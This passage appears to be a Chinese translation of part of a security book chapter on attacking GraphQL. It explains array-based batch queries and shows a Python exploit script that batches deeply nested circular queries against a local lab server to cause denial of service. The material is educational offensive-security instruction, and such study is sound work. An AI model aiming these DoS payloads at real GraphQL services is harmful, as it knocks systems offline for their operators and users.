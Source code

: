 将文件保存到桌面并运行以下命令：

```
# **cd ~/Desktop**
# **python3 array_based_batch_query.py**

[
   {'data': {'systemHealth': 'System Load: 1.49\n'}},
   {'data': {'systemHealth': 'System Load: 1.49\n'}}
]
```

不支持基于数组批量查询的 GraphQL 服务器可能会抛出 HTML 错误，因为它们没有实现处理数组有效负载的逻辑。支持数组但已禁用它们的服务器可能会返回如下错误：

```
{'errors': [{'message': 'Batch GraphQL requests are not enabled.'}]}
```

接下来，我们将探讨如何通过结合循环查询和基于数组的批量查询来执行 DoS 攻击。

### 链接循环查询和基于数组的批量查询

使用带有基于数组的批量查询的循环查询可能会对 GraphQL 服务器造成严重影响，甚至可能使其瘫痪。考虑 列表 5-14 中的循环查询。

```
query {
  pastes {      # level 1
    owner {     # level 2
      pastes {  # level 3
        owner { # level 4
          name  # level 5
        }
      }
    }
  }
}
```

列表 5-14：一个循环查询

这个递归查询的深度为五。单独来看，它可能不足以摧毁目标服务器，但我们可以修改它，使其深度更大。每一层都会创建一个额外的节点，服务器需要处理和解析这些节点，从而消耗更多的服务器资源。

为了实验循环查询，我们为你的黑客工具库编写了一个自定义的漏洞利用脚本。这个漏洞利用脚本可以通过让你指定应执行的循环次数来动态地扩展其循环性。该查询还能够使用数组批量执行查询。以下代码片段来自[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_circular_queries.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/array_based_circular_queries.py)：

```
ARRAY_LENGTH = 5
FIELD_REPEAT = 10

query = {"query":"query {"}
field_1_name = 'pastes'
field_2_name = 'owner'

count = 0
for _ in range(FIELD_REPEAT):
    count += 1
    closing_braces = '} ' * FIELD_REPEAT * 2  + '}'
    payload = "{0} {{ {1} {{ ".format(field_1_name, field_2_name)
    query["query"] += payload

    if count == FIELD_REPEAT:
      query["query"] += '__typename' + closing_braces
`--snip--`
queries = []
for _ in range(ARRAY_LENGTH):
  queries.append(query)

r = requests.post('http://localhost:5013/graphql', json=queries)
```